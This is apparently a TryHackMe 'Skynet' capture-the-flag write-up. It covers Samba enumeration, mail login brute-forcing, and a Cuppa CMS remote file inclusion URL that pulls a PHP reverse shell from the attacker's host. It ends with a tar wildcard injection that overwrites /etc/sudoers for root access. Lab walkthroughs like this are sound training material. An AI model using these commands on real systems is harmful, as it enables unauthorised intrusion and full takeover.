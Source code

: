 ```yaml
---
title: Skynet
description: A vulnerable Terminator themed Linux machine.
slug: tryhackme
date: 2023-05-18 00:00:00+0000
image : assets/skynet.jpeg
categories:
    - TryHackMe
tags:
    - TryHackme
---
```


[Link to the machine](https://tryhackme.com/room/skynet)

## Answer 1 {#Answer-1}

My target IP : **10.10.84.89**

We start by simply launching an nmap scan.
```yaml
 nmap -sC -sV -oN nmap -O -T4 [@Target_IP]
```

![Image 1](assets/1.PNG)

We can see that 6 services are open, including port 80. We navigate to a web browser to see what it is.

![Image 2](assets/2.png)

We launch gobuster to discover hidden files or directories.

![Image 3](assets/3.png)

The "admin" directory is forbidden, so we focus on the "squirrelmail" directory.

![Image 4](assets/4.png)

We could attempt a brute force attack, but for now, I prefer to revisit the information provided by nmap, which indicates the presence of a Samba share. To exploit it, we can use the tool "enum4linux."
```yaml
 enum4linux 10.10.84.89
```

![Image 5](assets/5.png)

Bingo! We learn two things: anonymous account usage is allowed, and there is also a share named "**milesdyson**."

Let's connect anonymously and download the content of the "milesdyson" share.

![Image 6](assets/6.png)

![Image 7](assets/7.png)

We find that "log1.txt" is a password list.

At this stage, we have a list of passwords and a possible username: milesdyson. We try to connect to the mail server using the passwords from this list and the username milesdyson. Success! It was quite fast.

## Answer 2 {#Answer-2}

![Image 8](assets/8.png)

In one of the emails, we find the new password for this user, allowing us to connect to their share.

![Image 9](assets/9.png)

In the "notes" directory, we find the file "important.txt." 

![Image 10](assets/10.png)

The document mentions a CMS. Let's see how it looks in the browser.

![Image 11](assets/11.png)

Here is our hidden directory.

## Answer 3 {#Answer-3}

Not knowing what to do at this stage, I relaunch gobuster on this new address.

![Image 12](assets/12.png)

![Image 13](assets/13.png)

We get something called Cuppa CMS. 
Let's search if there is a known vulnerability.

![Image 14](assets/14.png)

![Image 15](assets/15.png)

> Remote File Inclusion, let's try to inject a reverse shell.

## Answer 4 {#Answer-4}


I'll use the one from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

My target IP : **10.10.220.244**

Remember to modify the address in the script with your own machine's :


![Image 16](assets/16.png)

In one terminal, we start the Python server where our script is located.

In another terminal, we listen on port 1234 (if you haven't changed it):
```yaml
 nc -lvnp 1234
```

So in a shell :

![Image 17](assets/17.png)

And in another :

![Image 18](assets/18.png)

Then, in the web browser: 

```yaml
 http://10.10.84.89/[NAME OF HIDDEN DIRECTORY]/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.220.244:8000/php-reverse-shell.php
```

![Image 19](assets/19.png)

The reverse shell is in place!


![Image 20](assets/20.png)

![Image 21](assets/21.png)

## Answer 5 {#Answer-5}

Now it's time to escalate privileges.

![Image 22](assets/22.png)

I can't use the "sudo -l" command, so I decide to take a look at the crontab, and there we find an interesting file.

![Image 23](assets/23.png)

I'll check [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) to see if we can do something with that "tar" command executed as root.

![Image 24](assets/24.png)

```yaml
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```

![Image 25](assets/25.png)

After 1 minute :

![Image 26](assets/26.png)

![Image 27](assets/27.png)